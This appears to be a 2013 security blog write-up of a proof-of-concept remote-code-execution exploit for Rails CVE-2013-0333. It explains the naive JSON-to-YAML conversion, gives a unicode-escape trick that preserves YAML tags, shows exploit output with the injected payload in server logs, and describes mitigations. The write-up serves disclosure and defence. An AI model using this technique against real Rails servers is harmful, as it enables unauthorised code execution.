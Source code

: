```yaml
---
layout: post
title: Rails PoC exploit for CVE-2013-0333
author: postmodern
tags:
 - rails
 - ronin
 - poc
 - exploit
---
```


**TL;DR:** Same YAML [vulnerability][1], different code-path.

* [rails_omakase.rb]

Hot on the heels of [CVE-2013-0156], [CVE-2013-0333] was announced.
A code-path was discovered that allows `text/json` requests to be
translated into and parsed as YAML. This behavior _only_ exists in
Rails 2.3.x and 3.0.x.
 
This exploit uses the same YAML deserialization technique as the previous
[Rails PoC exploit][rails_rce.rb]. Please see the previous [write-up][1] for a
detailed explanation of how to achieve Remote Code Execution (RCE) via
`YAML.load`.

## ActiveSupport::JSON

In Rails 3.0.x, [ActiveSupport::JSON] acts as a proxy to various JSON parsing
libraries. By default Rails 3.0.x provides the [JSONGem], [Yajl] and [Yaml]
backends. [JSONGem] uses the [json] gem, [Yajl] uses the high-performance
[yajl] JSON parser, and [Yaml] attempts to translate JSON into YAML
before passing it to `YAML.load`. Oddly enough, [Yaml] (and not [JSONGem])
is the default JSON backend in Rails 3.0.x:

    ActiveSupport::JSON.backend
    => ActiveSupport::JSON::Backends::Yaml

The problem with the [Yaml] backend is that it's [convert_json_to_yaml] method
is incredibly naive. The method uses [StringScanner] to walk through the JSON
string, replacing JSON tokens with their YAML equivalents. The method does not
fully parse the JSON in order to emit proper YAML, nor does it validate that
the input is actually valid JSON. This is our opening.

However, [convert_json_to_yaml] does replace all `:` characters with `: `,
in an attempt to convert JSON Hashes into YAML Hashes. This will corrupt
our YAML tags:

    yaml = "--- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection"
    ActiveSupport::JSON::Backends::Yaml.send(:convert_json_to_yaml,yaml)
    # => "--- !ruby/hash: ActionController: : Routing: : RouteSet: : NamedRouteCollection"

Luckily, [convert_json_to_yaml] also parses JSON unicode-escaped characters:

    ActiveSupport::JSON::Backends::Yaml.send(:convert_json_to_yaml,yaml.gsub(':','\u003a'))
    # => "--- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection"

Now to get the YAML payload from [rails_rce.rb] executing. The `module_eval`ed
code in [ActionController::Routing::RouteSet::NamedRouteCollection#define_hash_access][define_hash_access 3.0.x]
was similar to that of Rails 2.8.x, and was changed in [Rails 3.1.x][define_hash_access 3.1.x].
Due to this difference, we simply reused the Rails 2.x payload from the
[rails_rce.rb] exploit.

After some minor modifications to [rails_rce.rb] we had a working exploit:

    $ rails_omakase http://localhost:3000/secrets "puts 'lol'"

    lol
    
    Started POST "/secrets" for 127.0.0.1 at 2013-01-28 18:53:18 -0800
      Processing by SecretsController#show as 
      Parameters: {"_json"=>#<ActionDispatch::Routing::RouteSet::NamedRouteCollection:0x00000002221080 @routes={:"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n"=>#<struct defaults={:action=>"create", :controller=>"foos"}, required_parts=[], requirements={:action=>"create", :controller=>"foos"}, segment_keys=[:format]>}, @helpers=[:"hash_for_foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_url", :"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_url", :"hash_for_foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_path", :"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_path"], @module=#<Module:0x00000002220fb8>>}
    Rendered text template (0.0ms)
    Completed 200 OK in 2ms (Views: 1.4ms | ActiveRecord: 0.0ms)

## Again?

When Rails was updated for [CVE-2013-0156], it did not actually fix the
underlying root cause, that the [Psych][psych] YAML parser
[does not have a safe-mode][5]. As long as developers continue allowing
user-input near `YAML.load`, and there is no safe-mode to prevent YAML from
deserializing arbitrary Classes, YAML deserialization vulnerabilities will
continue to pop up. In the meantime, there is a [safe_yaml] library, which
provides a safe-mode and does prevent [rails_omakase.rb] from working:

    Started POST "/secrets" for 127.0.0.1 at 2013-01-28 21:34:37 -0800
      Processing by SecretsController#show as 
      Parameters: {"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n"=>{"defaults"=>{":action"=>"create", ":controller"=>"foos"}, "required_parts"=>nil, "requirements"=>{":action"=>"create", ":controller"=>"foos"}, "segment_keys"=>[":format"]}}
    Rendered text template (0.0ms)
    Completed 200 OK in 2ms (Views: 1.2ms | ActiveRecord: 0.0ms)

**Update:** [@nelhage] has also written a [monkey-patch][6] for YAML,
that prevents any non-primitive objects from being deserialized. I have tested
this workaround against [rails_omakase.rb] on Ruby 1.9.3-p362 and Rails 3.0.19,
and can confirm it prevents the exploit from working. However, once loaded
it effects all `YAML.load` calls and cannot be disabled.

## Omakase?

I named this exploit [rails_omakase.rb], as an ode to [Rails Is Omakase][2];
I highly recommend the [dramatic reading][3]. In the blog post,
David Heinemeier Hansson (DHH) discusses the criticism Rails Core has received
over their changes to default settings. His main complaint is that merely
complaining about the changes, and not contributing code, does not improve the 
development process of Rails.

This vulnerability was the result of [changing the default JSON backend][4] from
[JSONGem] to [Yaml]. Additionally, it is unclear why anyone would ever
consider attempting to convert JSON into YAML, without fully parsing it first.
Like wise, [CVE-2013-0156] is equally perplexing, who could possibly think any
good would come from embedding YAML in XML?

Despite DHH's reassurance that Rails Core has the best of intentions when they
change default settings, they can and do make mistakes.

[CVE-2013-0156]: https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/61bkgvnSGTQ
[CVE-2013-0333]: https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/1h2DR63ViGo

[rails_omakase.rb]: https://gist.github.com/4660248
[rails_rce.rb]: https://gist.github.com/4499206

[json]: http://flori.github.com/json/
[yajl]: http://lloyd.github.com/yajl/
[psych]: https://github.com/tenderlove/psych
[safe_yaml]: https://github.com/dtao/safe_yaml#readme

[StringScanner]: http://rubydoc.info/stdlib/strscan/StringScanner
[ActiveSupport::JSON]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/decoding.rb
[JSONGem]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/jsongem.rb
[Yajl]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yajl.rb
[Yaml]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yaml.rb
[convert_json_to_yaml]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yaml.rb#L29-L96
[define_hash_access 3.0.x]: https://github.com/rails/rails/blob/v3.0.19/actionpack/lib/action_dispatch/routing/route_set.rb#L166-L171
[define_hash_access 3.1.x]: https://github.com/rails/rails/blob/v3.1.0/actionpack/lib/action_dispatch/routing/route_set.rb#L166-L171

[1]: http://ronin-ruby.github.com/blog/2013/01/09/rails-pocs.html
[2]: http://david.heinemeierhansson.com/2012/rails-is-omakase.html
[3]: http://gilesbowkett.blogspot.com/2013/01/a-dramatic-reading-of-rails-is-omakase.html
[4]: https://github.com/rails/rails/commit/a87683fb38d6cf66f39a7bd3faa6c969c63b1f46
[5]: https://github.com/tenderlove/psych/issues/119
[6]: https://gist.github.com/4659489
